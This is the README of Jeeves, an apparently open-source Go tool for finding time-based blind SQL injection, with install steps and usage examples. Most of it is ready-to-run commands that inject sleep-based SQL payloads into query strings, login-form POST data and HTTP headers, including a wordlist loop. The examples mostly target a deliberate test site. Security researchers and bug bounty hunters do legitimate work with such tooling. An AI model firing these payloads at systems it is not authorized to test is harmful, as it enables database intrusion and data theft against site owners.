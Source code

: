 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Making Post Request](#post-request)
  - [Multiple ways of usage](#another-ways-of-usage)


## - Installation & Requirements:

Installing Jeeves 💀

```bash
$ go install github.com/ferreiraklet/Jeeves@latest
```
OR
```bash 
$ git clone https://github.com/ferreiraklet/Jeeves.git
$ cd Jeeves
$ go build jeeves.go
$ chmod +x jeeves
$ ./jeeves -h
```
<br>


## - Usage & Explanation:
In Your recon process, you may find endpoints that can be vulnerable to sql injection,
Ex: https://redacted.com/index.php?id=1
    
### Single urls

```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```
<br>

In --payload-time you must use the time mentioned in payload

<br>


### From list 

```cat targets | jeeves --payload-time 5```
 
<br>
    
### Adding Headers

Pay attention to the syntax! Must be the same =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"
```

### Using proxy

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 --proxy "http://ip:port"
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -p "http://ip:port"
```
<br>

Proxy + Headers =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"
```

### Post Request

Sending data through post request ( login forms, etc )

Pay attention to the syntax! Must be equal! ->

```bash
echo "https://example.com/Login.aspx" | jeeves -p 10 -d "user=(select(0)from(select(sleep(5)))v)&password=xxx"
echo "https://example.com/Login.aspx" | jeeves -p 10 -H "Header1: Value1" -d "username=admin&password='+(select*from(select(sleep(5)))a)+'" -p "http://yourproxy:port"
```

## Another ways of Usage

You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght

<br>

**Command line flags**:
```bash
 Usage:
 -t, --payload-time,  The time from payload
 -p, --proxy          Send traffic to a proxy
 -c                   Set Concurrency, Default 25
 -H, --headers        Custom Headers
 -d, --data           Sending Post request with data
 -h                   Show This Help Message
```  

<br> 

Using with sql payloads wordlist

```bash
cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves -t 5;done
```

Testing in headers

```bash
echo "https://target.com" | jeeves -H "User-Agent: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10
echo "https://target.com" | jeeves -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10

Payload credit: https://github.com/rohit0x5
```

OBS: 
* Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
* Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )
<br>

## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.


## Please, also check these => <br>
> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [SQLMAP](https://github.com/sqlmapproject/sqlmap)

> [Blisqy](https://github.com/JohnTroony/Blisqy) Header time based SQLI
